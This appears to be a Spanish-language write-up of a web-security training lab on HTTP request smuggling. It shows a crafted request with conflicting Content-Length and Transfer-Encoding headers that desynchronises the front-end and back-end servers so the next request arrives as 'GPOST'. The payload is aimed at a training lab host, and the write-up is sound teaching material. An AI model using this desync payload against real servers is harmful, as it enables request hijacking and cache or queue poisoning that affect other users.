





## LAB

Al enviar nuestra solicitud y con la estructura maliciosa, al enviar no obtenemos nada.



Al desincronizar la solicitudes, podemos observar que este se desincroniza correctamente.



Por lo que se requiere enviar una solicitud  `GPOST` por lo que enviamos una solicitud, con la siguiente estructura:



```c
POST / HTTP/1.1
Host: 0af500a003e4112a80d8121c00cb00b0.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

Al enviar la solicitud, podemos ver que se envía una solicitud `GPOST`. Al enviar nuestra primera solicitud, lo que se envía es:

```c
POST / HTTP/1.1
Host: 0af500a003e4112a80d8121c00cb00b0.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

0
```

Quedando aun :

```c

G
```

Por lo que al enviar la segunda solicitud se tiene lo siguiente:

```c
GPOST / HTTP/1.1
Host: 0af500a003e4112a80d8121c00cb00b0.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

Por lo que el servidor envía una solicitud `GPOST`



